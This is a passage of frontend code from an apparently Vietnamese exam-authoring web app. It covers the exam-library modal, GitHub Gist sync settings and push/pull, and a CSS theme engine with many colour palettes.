['examTitleInput', 'examSubjectInput', 'examDurationInput', 'examSchoolInput'].forEach(id => {
  document.getElementById(id).addEventListener('input', () => {
    if (!state.blocks.length) return;
    state.title = document.getElementById('examTitleInput').value.trim() || 'Đề kiểm tra';
    state.subject = document.getElementById('examSubjectInput').value.trim();
    state.duration_minutes = parseInt(document.getElementById('examDurationInput').value, 10) || null;
    state.school_header = document.getElementById('examSchoolInput').value.trim();
    renderExam();
    scheduleArchiveSave();
  });
});

// ---------- Modal Lich su ----------
const libraryModal = document.getElementById('libraryModal');
const libraryExamListEl = document.getElementById('libraryExamList');
const libraryEmptyHintEl = document.getElementById('libraryEmptyHint');
const syncDetails = document.getElementById('syncDetails');

function formatDateShort(iso) {
  if (!iso) return '';
  const d = new Date(iso);
  if (isNaN(d.getTime())) return iso;
  return d.toLocaleString('vi-VN', {
    day: '2-digit', month: '2-digit', year: 'numeric', hour: '2-digit', minute: '2-digit'
  });
}

document.getElementById('libraryBtn').addEventListener('click', async () => {
  libraryModal.classList.add('open');
  // Uu tien danh sach de: khu dong bo gap lai, chi mo san neu da cau hinh token.
  syncDetails.open = false;
  changeTokenPanel.classList.add('form-hidden');
  changeGistPanel.classList.add('form-hidden');
  loadArchiveList();
  await loadSyncSettings();
  if (syncHasToken) syncDetails.open = true;
});
document.getElementById('closeLibraryModalBtn').addEventListener('click', () => {
  libraryModal.classList.remove('open');
});

async function loadArchiveList() {
  let exams = [];
  try {
    const res = await fetch('/api/archive');
    const data = await res.json();
    exams = data.success ? data.exams : [];
  } catch {
    exams = [];
  }

  // De dang mo khong con trong danh sach (bi xoa cuc bo, hoac keo ve thanh
  // tombstone) -> bo lien ket archiveId de lan sua sau tao ban ghi moi thay vi
  // cap nhat ban ghi da xoa.
  if (state.archiveId && !exams.some(e => e.exam_id === state.archiveId)) {
    state.archiveId = null;
  }

  libraryExamListEl.innerHTML = '';
  libraryEmptyHintEl.style.display = exams.length ? 'none' : '';

  exams.forEach(ex => {
    const li = document.createElement('li');
    li.className = 'form-question-item';

    const info = document.createElement('div');
    info.className = 'form-question-item-info';
    const sub = [
      ex.subject,
      ex.duration_minutes ? `${ex.duration_minutes} phút` : '',
      `Sửa: ${formatDateShort(ex.updated_at)}`
    ].filter(Boolean).join(' · ');
    info.innerHTML = `<strong>${escapeHtml(ex.title || 'Đề chưa đặt tên')}</strong><span>${escapeHtml(sub)}</span>`;

    const actions = document.createElement('div');
    actions.className = 'form-question-item-actions';

    const openBtn = document.createElement('button');
    openBtn.type = 'button';
    openBtn.className = 'edit-btn';
    openBtn.textContent = 'Mở';
    openBtn.addEventListener('click', () => openArchivedExam(ex.exam_id));

    const delBtn = document.createElement('button');
    delBtn.type = 'button';
    delBtn.className = 'delete-btn';
    delBtn.textContent = 'Xóa';
    delBtn.addEventListener('click', () => deleteArchivedExam(ex));

    actions.appendChild(openBtn);
    actions.appendChild(delBtn);
    li.appendChild(info);
    li.appendChild(actions);
    libraryExamListEl.appendChild(li);
  });
}

async function openArchivedExam(examId) {
  try {
    const res = await fetch(`/api/archive/${examId}`);
    const data = await res.json();
    if (!data.success) throw new Error(data.error);
    loadArchivedExamIntoState(data.exam);
    libraryModal.classList.remove('open');
  } catch (err) {
    showError('Không mở được đề từ kho: ' + err.message);
  }
}

function loadArchivedExamIntoState(exam) {
  state.title = exam.title || '';
  state.subject = exam.subject || '';
  state.duration_minutes = exam.duration_minutes || null;
  state.school_header = exam.school_header || '';
  state.blocks = Array.isArray(exam.blocks) ? exam.blocks : [];
  state.template_binding = exam.template_binding || null;
  ensureIds(state.blocks);
  normalizeExamMath(state.blocks); // TASK E: nang cap cong thuc toan de cu -> $...$
  state.archiveId = exam.exam_id;
  state.examId = null;
  state.activeShareCode = null;
  lastGenerateSaveAt = 0; // bam "Sinh De" sau khi mo de cu -> tao ban ghi moi

  document.getElementById('examTitleInput').value = state.title;
  document.getElementById('examSubjectInput').value = state.subject;
  document.getElementById('examDurationInput').value = state.duration_minutes || '';
  document.getElementById('examSchoolInput').value = state.school_header;

  clearExamVersions();
  renderExam();
  toggleActionButtons(true);
  document.getElementById('generateMultiCodeBtn').disabled = false;
  hideError();
}

async function deleteArchivedExam(ex) {
  const ok = window.confirm(
    `Xóa đề "${ex.title || 'Đề chưa đặt tên'}"?\n\n` +
    `• Đề chỉ bị xóa TRÊN MÁY NÀY.\n` +
    `• Bấm "⬆️ Đẩy lên" sau đó để xóa vĩnh viễn trên cloud.\n` +
    `• Nếu xóa nhầm (và chưa Đẩy lên), bấm "⬇️ Kéo về" để khôi phục.`
  );
  if (!ok) return;
  try {
    const res = await fetch(`/api/archive/${ex.exam_id}`, { method: 'DELETE' });
    const data = await res.json();
    if (!data.success) throw new Error(data.error);
    if (state.archiveId === ex.exam_id) state.archiveId = null;
    loadArchiveList();
  } catch (err) {
    showError('Lỗi xóa đề khỏi kho: ' + err.message);
  }
}

// ---------- Dong bo Gist ----------
// Token va Gist ID mac dinh "khoa" - chi hien nhan trang thai. Muon doi phai
// bam "Thay doi Token" / "Thay doi Gist ID" de mo panel tuong ung.
const syncStatusEl = document.getElementById('syncStatus');
const syncMetaEl = document.getElementById('syncMeta');
const ghTokenInput = document.getElementById('ghTokenInput');
const gistIdInput = document.getElementById('gistIdInput');
const tokenStateLabel = document.getElementById('tokenStateLabel');
const gistStateLabel = document.getElementById('gistStateLabel');
const changeTokenPanel = document.getElementById('changeTokenPanel');
const changeGistPanel = document.getElementById('changeGistPanel');
const createGistBtn = document.getElementById('createGistBtn');
const syncPushBtn = document.getElementById('syncPushBtn');
const syncPullBtn = document.getElementById('syncPullBtn');

let syncHasToken = false;
let syncGistId = '';

function setSyncStatus(msg, kind) {
  syncStatusEl.textContent = msg || '';
  syncStatusEl.classList.toggle('is-error', kind === 'error');
  syncStatusEl.classList.toggle('is-ok', kind === 'ok');
}

function renderSyncState() {
  const masked = tokenStateLabel.dataset.masked;
  tokenStateLabel.textContent = syncHasToken
    ? (masked ? `✅ Đã lưu (${masked})` : '✅ Đã lưu')
    : '⚠️ Chưa có';
  tokenStateLabel.classList.toggle('is-set', syncHasToken);
  gistStateLabel.textContent = syncGistId ? `✅ ${syncGistId}` : '⚠️ Chưa có';
  gistStateLabel.classList.toggle('is-set', !!syncGistId);
  // "Tạo Gist ID mới" cần token trước.
  createGistBtn.disabled = !syncHasToken;
}

async function loadSyncSettings() {
  try {
    const res = await fetch('/api/sync/settings');
    const data = await res.json();
    if (!data.success) return;
    syncHasToken = !!data.has_token;
    syncGistId = data.gist_id || '';
    if (data.has_token && data.masked_token) tokenStateLabel.dataset.masked = data.masked_token;
    renderSyncState();
    syncMetaEl.textContent = data.last_synced_at
      ? `Đồng bộ lần cuối: ${formatDateShort(data.last_synced_at)}`
      : 'Chưa đồng bộ lần nào.';
  } catch {
    // giu nguyen trang thai hien tai
  }
}

async function postSyncSettings(body) {
  const res = await fetch('/api/sync/settings', {
    method: 'POST',
    headers: { 'Content-Type': 'application/json' },
    body: JSON.stringify(body)
  });
  const data = await res.json();
  if (!data.success) throw new Error(data.error || 'Lỗi lưu cấu hình');
  return data;
}

// --- Panel: thay đổi Token ---
document.getElementById('changeTokenBtn').addEventListener('click', () => {
  ghTokenInput.value = '';
  changeTokenPanel.classList.remove('form-hidden');
  changeGistPanel.classList.add('form-hidden');
  ghTokenInput.focus();
});
document.getElementById('cancelTokenBtn').addEventListener('click', () => {
  changeTokenPanel.classList.add('form-hidden');
  ghTokenInput.value = '';
});
document.getElementById('saveTokenBtn').addEventListener('click', async () => {
  const token = ghTokenInput.value.trim();
  if (!token) { setSyncStatus('❌ Chưa nhập Token.', 'error'); return; }
  try {
    await postSyncSettings({ github_token: token });
    ghTokenInput.value = '';
    changeTokenPanel.classList.add('form-hidden');
    await loadSyncSettings();
    setSyncStatus('✅ Đã lưu Token.', 'ok');
  } catch (err) {
    setSyncStatus('❌ ' + err.message, 'error');
  }
});

// --- Panel: thay đổi Gist ID ---
document.getElementById('changeGistBtn').addEventListener('click', () => {
  gistIdInput.value = syncGistId;
  changeGistPanel.classList.remove('form-hidden');
  changeTokenPanel.classList.add('form-hidden');
});
document.getElementById('cancelGistBtn').addEventListener('click', () => {
  changeGistPanel.classList.add('form-hidden');
});
document.getElementById('saveGistIdBtn').addEventListener('click', async () => {
  const gistId = gistIdInput.value.trim();
  if (!gistId) { setSyncStatus('❌ Chưa nhập Gist ID.', 'error'); return; }
  try {
    await postSyncSettings({ gist_id: gistId });
    changeGistPanel.classList.add('form-hidden');
    await loadSyncSettings();
    setSyncStatus('✅ Đã lưu Gist ID. Bấm "Kéo về" để đồng bộ.', 'ok');
  } catch (err) {
    setSyncStatus('❌ ' + err.message, 'error');
  }
});

// "Tạo Gist ID mới": xoá gist_id hiện tại rồi Push -> backend tự tạo Gist mới.
createGistBtn.addEventListener('click', async () => {
  if (!syncHasToken) { setSyncStatus('❌ Cần lưu Token trước khi tạo Gist.', 'error'); return; }
  if (syncGistId && !window.confirm(
    'Tạo Gist MỚI sẽ ngừng dùng Gist hiện tại (Gist cũ vẫn còn trên GitHub, bạn tự xoá nếu muốn).\n\nTiếp tục?'
  )) return;
  createGistBtn.disabled = true;
  setSyncStatus('⏳ Đang tạo Gist mới và đẩy kho đề lên...', '');
  try {
    await postSyncSettings({ gist_id: '' });
    await runSync('push');
    changeGistPanel.classList.add('form-hidden');
  } catch (err) {
    setSyncStatus('❌ ' + err.message, 'error');
  } finally {
    createGistBtn.disabled = false;
  }
});

async function runSync(direction) {
  syncPushBtn.disabled = true;
  syncPullBtn.disabled = true;
  setSyncStatus(direction === 'pull' ? '⏳ Đang kéo về từ Gist...' : '⏳ Đang đẩy lên Gist...', '');
  try {
    const res = await fetch(`/api/sync/${direction}`, {
      method: 'POST',
      headers: { 'Content-Type': 'application/json' },
      body: JSON.stringify({ theme: { id: currentTheme(), updated_at: currentThemeAt() } })
    });
    const data = await res.json();
    if (!data.success) throw new Error(data.error);
    const r = data.result || {};
    const tail = r.tombstones ? `, ${r.tombstones} đã xóa` : '';
    const themeChanged = adoptSyncedTheme(data.theme);
    const themeTail = themeChanged ? ` • chủ đề: ${currentTheme()}` : '';
    setSyncStatus(
      `✅ ${direction === 'pull' ? 'Đã kéo về' : 'Đã đẩy lên'}: ${r.active || 0} đề đang lưu${tail}${themeTail}.`,
      'ok'
    );
    await loadArchiveList();
    await loadSyncSettings();
  } catch (err) {
    setSyncStatus('❌ ' + err.message, 'error');
  } finally {
    syncPushBtn.disabled = false;
    syncPullBtn.disabled = false;
  }
}

syncPullBtn.addEventListener('click', () => runSync('pull'));
syncPushBtn.addEventListener('click', () => runSync('push'));

```

### FILE: frontend/style.css

```css
/* ============================================================
   THEME ENGINE
   Mỗi theme là 1 bộ CSS custom properties HOÀN CHỈNH, chọn qua
   thuộc tính  <html data-theme="...">  (JS + localStorage 'eb_theme').
   Bảng màu chắt lọc từ resources/image/theme/ (Cold/Ocean/Summer/
   Fall/Winter sáng · Midnight/Pine tối). Tương phản chữ/nền đạt
   WCAG AA (>= 4.5:1). Không dùng "dark toggle" riêng — các theme
   Midnight/Pine chính là lựa chọn nền tối.
   ============================================================ */
:root {
  /* Theme KHÔNG phụ thuộc chế độ sáng/tối của trình duyệt/hệ điều hành.
     "only light" = ép sáng + CHẶN Auto Dark Mode của Chrome/Edge tự đảo màu.
     midnight/pine tự ghi đè "only dark" ở khối riêng. */
  color-scheme: only light;

  /* Cố định cho mọi theme */
  --color-danger: #dc2626;
  --color-success: #16a34a;
  --color-nb: #0891b2;
  --color-vd: #d97706;
  --color-vdc: #dc2626;
  --radius: 10px;
  --font-scale: 1;   /* zoom khu Xem trước (nút A+/A-) */
  --ui-scale: 1;     /* cỡ chữ toàn app (Cài đặt > Giao diện) */

  /* ---- Theme mặc định: COLD (xanh lạnh) ---- */
  --color-primary: #1976d2;
  --color-primary-dark: #0d47a1;
  --color-primary-soft: #e3f2fd;
  --color-primary-soft-br: #a9d3f5;
  --color-on-primary: #ffffff;
  --color-bg: #e9f2fb;
  --color-surface: #ffffff;
  --color-surface-2: #f3f8fd;
  --color-border: #cddff1;
  --color-text: #13273f;
  --color-text-muted: #4c6480;
  --color-line: #90aac7;
  --color-switch-off: #b8cde3;
  --color-overlay: rgba(9, 21, 64, 0.45);
  --color-correct-bg: #e6f4ea;
  --color-expl-bg: #fff7e0;
  --color-expl-border: #e8a100;
  --color-code-bg: #0d2137;
  --color-code-text: #dce8f5;
  --color-th: #1976d2;
}

:root[data-theme="ocean"] {
  --color-primary: #33689f;
  --color-primary-dark: #274e78;
  --color-primary-soft: #dde9e6;
  --color-primary-soft-br: #a9c5c1;
  --color-on-primary: #ffffff;
  --color-bg: #f2efe7;
  --color-surface: #fbfaf5;
  --color-surface-2: #e9e4d6;
  --color-border: #ddd5c4;
  --color-text: #23303a;
  --color-text-muted: #52646f;
  --color-line: #9aa79f;
  --color-switch-off: #cfc9b8;
  --color-overlay: rgba(30, 40, 50, 0.45);
  --color-correct-bg: #e5efe6;
  --color-expl-bg: #f7ecd6;
  --color-expl-border: #b5842f;
  --color-code-bg: #21303a;
  --color-code-text: #e4ece9;
  --color-th: #33689f;
}

:root[data-theme="summer"] {
  --color-primary: #a8562b;
  --color-primary-dark: #7a3d1c;
  --color-primary-soft: #f3e5cf;
  --color-primary-soft-br: #e0c9a8;
  --color-on-primary: #ffffff;
  --color-bg: #fdf3e2;
  --color-surface: #fffaf0;
  --color-surface-2: #f6e9d1;
  --color-border: #e9d6b9;
  --color-text: #33291c;
  --color-text-muted: #6e5c44;
  --color-line: #b09a7a;
  --color-switch-off: #ddccae;
  --color-overlay: rgba(51, 41, 28, 0.45);
  --color-correct-bg: #eaf0dd;
  --color-expl-bg: #fdeecf;
  --color-expl-border: #b5842f;
  --color-code-bg: #33291c;
  --color-code-text: #f0e6d5;
  --color-th: #6b7a45;
}

:root[data-theme="fall"] {
  --color-primary: #af5f2c;
  --color-primary-dark: #843f16;
  --color-primary-soft: #f6e5d0;
  --color-primary-soft-br: #e6c19c;
  --color-on-primary: #ffffff;
  --color-bg: #fcf3e6;
  --color-surface: #fffdf8;
  --color-surface-2: #f4ead8;
  --color-border: #e8d6bd;
  --color-text: #302518;
  --color-text-muted: #6a5a48;
  --color-line: #a99c88;
  --color-switch-off: #ddcdb4;
  --color-overlay: rgba(48, 37, 24, 0.45);
  --color-correct-bg: #e6efe0;
  --color-expl-bg: #fdeed0;
  --color-expl-border: #b5842f;
  --color-code-bg: #2c2318;
  --color-code-text: #efe6d8;
  --color-th: #3f7c8c;
}

:root[data-theme="winter"] {
  --color-primary: #6b7259;
  --color-primary-dark: #464b3a;
  --color-primary-soft: #e4e4dc;
  --color-primary-soft-br: #c3c3b3;
  --color-on-primary: #ffffff;
  --color-bg: #f0f0ec;
  --color-surface: #ffffff;
  --color-surface-2: #e8e8e2;
  --color-border: #d6d6ce;
  --color-text: #2b2b26;
  --color-text-muted: #5f5f55;
  --color-line: #a3a396;
  --color-switch-off: #c9c9be;
  --color-overlay: rgba(43, 43, 38, 0.45);
  --color-correct-bg: #e7efe4;
  --color-expl-bg: #f4efdd;
  --color-expl-border: #9a8a52;
  --color-code-bg: #2b2b26;
  --color-code-text: #e9e9e2;
  --color-th: #6b7259;
}

:root[data-theme="meadow"] {
  --color-primary: #3f7d1c;
  --color-primary-dark: #245f22;
  --color-primary-soft: #e7f2d4;
  --color-primary-soft-br: #c3e08f;
  --color-on-primary: #ffffff;
  --color-bg: #f3f8e9;
  --color-surface: #ffffff;
  --color-surface-2: #eef4e0;
  --color-border: #d7e5bf;
  --color-text: #20301a;
  --color-text-muted: #4f6242;
  --color-line: #9db584;
  --color-switch-off: #cadfab;
  --color-overlay: rgba(20, 40, 15, 0.45);
  --color-correct-bg: #e2f0d5;
  --color-expl-bg: #fbf6d8;
  --color-expl-border: #a08a1e;
  --color-code-bg: #1c2b16;
  --color-code-text: #e7efdc;
  --color-th: #3f7d1c;
}

:root[data-theme="blossom"] {
  --color-primary: #7a5c8f;
  --color-primary-dark: #5f4571;
  --color-primary-soft: #ebe4f0;
  --color-primary-soft-br: #cfc0dd;
  --color-on-primary: #ffffff;
  --color-bg: #fbf5e6;
  --color-surface: #fffcf3;
  --color-surface-2: #f2e9d4;
  --color-border: #e6dbc7;
  --color-text: #33292f;
  --color-text-muted: #6b5a63;
  --color-line: #b3a598;
  --color-switch-off: #dccfbc;
  --color-overlay: rgba(50, 40, 45, 0.45);
  --color-correct-bg: #e6eee8;
  --color-expl-bg: #fbeed4;
  --color-expl-border: #b5842f;
  --color-code-bg: #2c2530;
  --color-code-text: #ece3ee;
  --color-th: #4a7194;
}

:root[data-theme="sorbet"] {
  --color-primary: #c0453f;
  --color-primary-dark: #98342f;
  --color-primary-soft: #fbe0d7;
  --color-primary-soft-br: #f5b9a5;
  --color-on-primary: #ffffff;
  --color-bg: #fef2ee;
  --color-surface: #fffbf8;
  --color-surface-2: #fce6dd;
  --color-border: #f3ddd2;
  --color-text: #3a2622;
  --color-text-muted: #755751;
  --color-line: #c9a99e;
  --color-switch-off: #f0cfc2;
  --color-overlay: rgba(58, 38, 34, 0.45);
  --color-correct-bg: #dcf1e4;
  --color-expl-bg: #f7f1d3;
  --color-expl-border: #b09030;
  --color-code-bg: #33221f;
  --color-code-text: #f2e5e0;
  --color-th: #1f7d55;
}

:root[data-theme="daylight"] {
  --color-primary: #3f5fc9;
  --color-primary-dark: #2f49a0;
  --color-primary-soft: #e4ebfb;
  --color-primary-soft-br: #b9caf6;
  --color-on-primary: #ffffff;
  --color-bg: #fefaee;
  --color-surface: #fffef9;
  --color-surface-2: #faf1d6;
  --color-border: #ece0be;
  --color-text: #2c2b1f;
  --color-text-muted: #615e46;
  --color-line: #b7ac86;
  --color-switch-off: #e6d9b3;
  --color-overlay: rgba(44, 43, 31, 0.45);
  --color-correct-bg: #e5efdc;
  --color-expl-bg: #fff4cf;
  --color-expl-border: #bd9a1e;
  --color-code-bg: #2a2a1e;
  --color-code-text: #efe9d4;
  --color-th: #3f5fc9;
}

:root[data-theme="midnight"] {
  --color-primary: #7f9cff;
  --color-primary-dark: #abd2fa;
  --color-primary-soft: #1c2a5e;
  --color-primary-soft-br: #33478a;
  --color-on-primary: #0a1230;
  --color-bg: #0a1230;
  --color-surface: #121a3f;
  --color-surface-2: #1a2350;
  --color-border: #2c3a6b;
  --color-text: #e4e9f7;
  --color-text-muted: #a1b2d6;
  --color-line: #4a5a8f;
  --color-switch-off: #33427a;
  --color-overlay: rgba(0, 0, 0, 0.6);
  --color-correct-bg: #123321;
  --color-expl-bg: #2b2913;
  --color-expl-border: #caa42a;
  --color-code-bg: #060b1e;
  --color-code-text: #d5def5;
  --color-th: #3f5fd0;
  color-scheme: only dark;
}

:root[data-theme="pine"] {
  --color-primary: #5cc596;
  --color-primary-dark: #8bbb92;
  --color-primary-soft: #123c3b;
  --color-primary-soft-br: #245552;
  --color-on-primary: #072022;
  --color-bg: #0a2226;
  --color-surface: #0f2d31;
  --color-surface-2: #153a3d;
  --color-border: #28504f;
  --color-text: #e0efe4;
  --color-text-muted: #95b3a5;
  --color-line: #446b64;
  --color-switch-off: #2c5350;
  --color-overlay: rgba(0, 0, 0, 0.6);
  --color-correct-bg: #123a24;
  --color-expl-bg: #2c2913;
  --color-expl-border: #caa42a;
  --color-code-bg: #061a1c;
  --color-code-text: #d8ece1;
  --color-th: #1f7d55;
  color-scheme: only dark;
}

:root[data-theme="grape"] {
  --color-primary: #6a3ea8;
  --color-primary-dark: #4b287d;
  --color-primary-soft: #ece2f7;
  --color-primary-soft-br: #cdb6ec;
  --color-on-primary: #ffffff;
  --color-bg: #f3eefb;
  --color-surface: #ffffff;
  --color-surface-2: #efe8f8;
  --color-border: #ddd0ef;
  --color-text: #241436;
  --color-text-muted: #574465;
  --color-line: #a48fc2;
  --color-switch-off: #cdbde6;
  --color-overlay: rgba(30, 15, 55, 0.45);
  --color-correct-bg: #e5f0e4;
  --color-expl-bg: #fbf3d4;
  --color-expl-border: #a5822a;
  --color-code-bg: #1f1338;
  --color-code-text: #e9e1f6;
  --color-th: #6a3ea8;
}

:root[data-theme="plum"] {
  --color-primary: #9c3568;
  --color-primary-dark: #78264f;
  --color-primary-soft: #f6dee9;
  --color-primary-soft-br: #e8b2ca;
  --color-on-primary: #ffffff;
  --color-bg: #fceef4;
  --color-surface: #fffafc;
  --color-surface-2: #f9e0ec;
  --color-border: #f1d3e0;
  --color-text: #371c2b;
  --color-text-muted: #744f60;
  --color-line: #cc9bb1;
  --color-switch-off: #eec7d8;
  --color-overlay: rgba(55, 18, 41, 0.45);
  --color-correct-bg: #e6f1e3;
  --color-expl-bg: #fdeecb;
  --color-expl-border: #a8822c;
  --color-code-bg: #2d1621;
  --color-code-text: #f3e2ea;
  --color-th: #9c3568;
}

:root[data-theme="mocha"] {
  --color-primary: #7c5741;
  --color-primary-dark: #5b3d2b;
  --color-primary-soft: #efe5dd;
  --color-primary-soft-br: #d8c2b2;
  --color-on-primary: #ffffff;
  --color-bg: #f4efec;
  --color-surface: #fffdfb;
  --color-surface-2: #ece2da;
  --color-border: #ded1c6;
  --color-text: #2d221a;
  --color-text-muted: #6a584a;
  --color-line: #ab9683;
  --color-switch-off: #d8c8ba;
  --color-overlay: rgba(45, 34, 26, 0.45);
  --color-correct-bg: #e7efe1;
  --color-expl-bg: #f7edd5;
  --color-expl-border: #af8630;
  --color-code-bg: #2a2019;
  --color-code-text: #efe7de;
  --color-th: #7c5741;
}

:root[data-theme="quartz"] {
  --color-primary: #9c5a7c;
  --color-primary-dark: #7a4460;
  --color-primary-soft: #f5e2ec;
  --color-primary-soft-br: #e0bdd0;
  --color-on-primary: #ffffff;
  --color-bg: #fdf1f2;
  --color-surface: #fffafb;
  --color-surface-2: #fbe6e8;
  --color-border: #f2dade;
  --color-text: #352730;
  --color-text-muted: #6f5a64;
  --color-line: #caadbb;
  --color-switch-off: #eecdd6;
  --color-overlay: rgba(53, 39, 48, 0.45);
  --color-correct-bg: #e7f0e6;
  --color-expl-bg: #f8efd7;
  --color-expl-border: #a8842e;
  --color-code-bg: #2d2530;
  --color-code-text: #efe4ec;
  --color-th: #8156a0;
}

:root[data-theme="peach"] {
  --color-primary: #b45642;
  --color-primary-dark: #8e3f2e;
  --color-primary-soft: #fde3d9;
  --color-primary-soft-br: #f4c1b0;
  --color-on-primary: #ffffff;
  --color-bg: #fdf1ee;
  --color-surface: #fffbf9;
  --color-surface-2: #fbe7df;
  --color-border: #f5ddd4;
  --color-text: #3b2823;
  --color-text-muted: #7b574e;
  --color-line: #d3a99e;
  --color-switch-off: #f1cdc1;
  --color-overlay: rgba(59, 40, 35, 0.45);
  --color-correct-bg: #e8f0e1;
  --color-expl-bg: #fdefd2;
  --color-expl-border: #a8842c;
  --color-code-bg: #33211d;
  --color-code-text: #f5e6e1;
  --color-th: #b45642;
}

:root[data-theme="rose"] {
  --color-primary: #bb4a62;
  --color-primary-dark: #93374b;
  --color-primary-soft: #fbdee4;
  --color-primary-soft-br: #f2b7c3;
  --color-on-primary: #ffffff;
  --color-bg: #fdefe4;
  --color-surface: #fffbf6;
  --color-surface-2: #fbe7da;
  --color-border: #f5ddcb;
  --color-text: #3a2621;
  --color-text-muted: #7a564d;
  --color-line: #d6a89c;
  --color-switch-off: #f2cbbc;
  --color-overlay: rgba(58, 38, 33, 0.45);
  --color-correct-bg: #e8f0e0;
  --color-expl-bg: #fdefcd;
  --color-expl-border: #a8842c;
  --color-code-bg: #331f1c;
  --color-code-text: #f5e4df;
  --color-th: #bb4a62;
}

:root[data-theme="honey"] {
  --color-primary: #9e6b30;
  --color-primary-dark: #7c521f;
  --color-primary-soft: #f8e6c8;
  --color-primary-soft-br: #ecc999;
  --color-on-primary: #ffffff;
  --color-bg: #fdf4e3;
  --color-surface: #fffdf7;
  --color-surface-2: #f7ebd3;
  --color-border: #eaddc0;
  --color-text: #352a19;
  --color-text-muted: #6d5c40;
  --color-line: #b7a079;
  --color-switch-off: #e5d3af;
  --color-overlay: rgba(53, 42, 25, 0.45);
  --color-correct-bg: #e7efdc;
  --color-expl-bg: #fdf1cc;
  --color-expl-border: #a5811f;
  --color-code-bg: #2e2415;
  --color-code-text: #f3e9d6;
  --color-th: #9e6b30;
}

html { font-size: calc(100% * var(--ui-scale, 1)); }

/* Chuyển theme mượt (không animate layout, chỉ màu) */
body, .app-header, .input-panel, .preview-panel, .exam-container, .question-card,
.question-block-title, .modal, .prompt-reference, .legend-badge, button,
input, textarea, select, .option-row, .explanation-box, .sync-details, .sync-subpanel {
  transition: background-color 0.25s ease, border-color 0.25s ease, color 0.25s ease;
}
@media (prefers-reduced-motion: reduce) { * { transition: none !important; } }

* { box-sizing: border-box; }

body {
  margin: 0;
  font-family: "Segoe UI", system-ui, -apple-system, Roboto, sans-serif;
  background: var(--color-bg);
  color: var(--color-text);
}

.app-header {
  display: flex;
  align-items: center;
  justify-content: space-between;
  flex-wrap: wrap;
  gap: 1rem;
  padding: 0.75rem 1.5rem;
  background: var(--color-surface);
  border-bottom: 1px solid var(--color-border);
  position: sticky;
  top: 0;
  z-index: 10;
}

.app-header h1 {
  font-size: 1.25rem;
  margin: 0;
  color: var(--color-primary-dark);
}

.toolbar {
  display: flex;
  align-items: center;
  gap: 1.25rem;
  flex-wrap: wrap;
}
.toolbar-group {
  display: flex;
  align-items: center;
  gap: 0.75rem;
  flex-wrap: wrap;
}
.toolbar-group + .toolbar-group {
  padding-left: 1.25rem;
  border-left: 1px solid var(--color-border);
}
@media (max-width: 720px) {
  .toolbar-group + .toolbar-group { padding-left: 0; border-left: none; }
}

.switch {
  display: flex;
  align-items: center;
  gap: 0.5rem;
  cursor: pointer;
  user-select: none;
  font-size: 0.9rem;
}
.switch input { display: none; }
.switch-track {
  width: 38px;
  height: 22px;
  background: var(--color-switch-off);
  border-radius: 999px;
  position: relative;
  transition: background 0.2s;
}
.switch-thumb {
  position: absolute;
  top: 2px;
  left: 2px;
  width: 18px;
  height: 18px;
  background: #ffffff;
  border-radius: 50%;
  transition: transform 0.2s;
}
.switch input:checked + .switch-track { background: var(--color-primary); }
.switch input:checked + .switch-track .switch-thumb { transform: translateX(16px); }

.zoom-controls {
  display: flex;
  align-items: center;
  gap: 0.4rem;
  font-size: 0.9rem;
}
.zoom-controls button {
  width: 28px;
  height: 28px;
  border-radius: 6px;
}

button {
  cursor: pointer;
  border: 1px solid var(--color-border);
  background: var(--color-surface);
  border-radius: 6px;
  padding: 0.4rem 0.7rem;
  font-size: 0.85rem;
  color: var(--color-text);
}
button:hover:not(:disabled) { border-color: var(--color-primary); color: var(--color-primary-dark); }
button:disabled { opacity: 0.5; cursor: not-allowed; }

.tool-btn { font-weight: 500; }

.primary-btn {
  background: var(--color-primary);
  color: var(--color-on-primary);
  border-color: var(--color-primary);
  font-weight: 600;
  padding: 0.6rem 1rem;
}
.primary-btn:hover:not(:disabled) { background: var(--color-primary-dark); color: var(--color-on-primary); border-color: var(--color-primary-dark); }

.secondary-btn {
  background: var(--color-primary-soft);
  border-color: var(--color-primary-soft-br);
  color: var(--color-primary-dark);
}

.app-main {
  display: grid;
  grid-template-columns: 400px 1fr;
  gap: 1.25rem;
  padding: 1.25rem 1.5rem;
  align-items: start;
}

@media (max-width: 900px) {
  .app-main { grid-template-columns: 1fr; }
}

.app-main.shared-view { grid-template-columns: 1fr; }
.app-main.shared-view .input-panel { display: none; }

/* Ca 2 cot (input-panel + preview-panel) duoc "ghim" ngay duoi header va
   gioi han chieu cao theo vien man hinh, moi cot cuon rieng doc lap bang
   thanh cuon cua chinh no - khong lien quan toi cuon trang chinh. Khu
   "Prompt mau cho AI" nam ngoai <main>, ngoai vung ghim nay, nen luon o
   duoi trang va chi hien ra khi cuon tiep ca trang xuong. */
.input-panel,
.preview-panel {
  position: sticky;
  top: 4.5rem;
  max-height: calc(100vh - 5.5rem);
  overflow-y: auto;
  scrollbar-width: thin;
  scrollbar-color: var(--color-line) var(--color-bg);
}
.input-panel::-webkit-scrollbar,
.preview-panel::-webkit-scrollbar { width: 9px; }
.input-panel::-webkit-scrollbar-track,
.preview-panel::-webkit-scrollbar-track { background: var(--color-bg); border-radius: 999px; }
.input-panel::-webkit-scrollbar-thumb,
.preview-panel::-webkit-scrollbar-thumb { background: var(--color-line); border-radius: 999px; border: 2px solid var(--color-bg); }
.input-panel::-webkit-scrollbar-thumb:hover,
.preview-panel::-webkit-scrollbar-thumb:hover { background: var(--color-primary); }

.input-panel {
  background: var(--color-surface);
  border: 1px solid var(--color-border);
  border-radius: var(--radius);
  padding: 1rem;
  display: flex;
  flex-direction: column;
  gap: 0.75rem;
}

.exam-meta { display: flex; flex-direction: column; gap: 0.5rem; }
.meta-row { display: flex; gap: 0.5rem; }
.meta-row input { flex: 1; }

input[type="text"], input[type="number"], textarea, select {
  width: 100%;
  padding: 0.5rem 0.6rem;
  border: 1px solid var(--color-border);
  border-radius: 6px;
  font-size: 0.9rem;
  font-family: inherit;
  background: var(--color-surface);
  color: var(--color-text);
}
textarea { resize: vertical; }

.tabs {
  display: flex;
  gap: 0.25rem;
  border-bottom: 1px solid var(--color-border);
}
.tab-btn {
  flex: 1;
  border: none;
  border-bottom: 2px solid transparent;
  border-radius: 0;
  background: transparent;
  padding: 0.5rem;
  font-size: 0.82rem;
}
.tab-btn.active { border-bottom-color: var(--color-primary); color: var(--color-primary-dark); font-weight: 600; }

.tab-content { display: none; flex-direction: column; gap: 0.5rem; }
.tab-content.active { display: flex; }

.hint { font-size: 0.8rem; color: var(--color-text-muted); margin: 0; }

.form-fields { display: flex; flex-direction: column; gap: 0.5rem; }
.form-options { display: flex; flex-direction: column; gap: 0.4rem; }
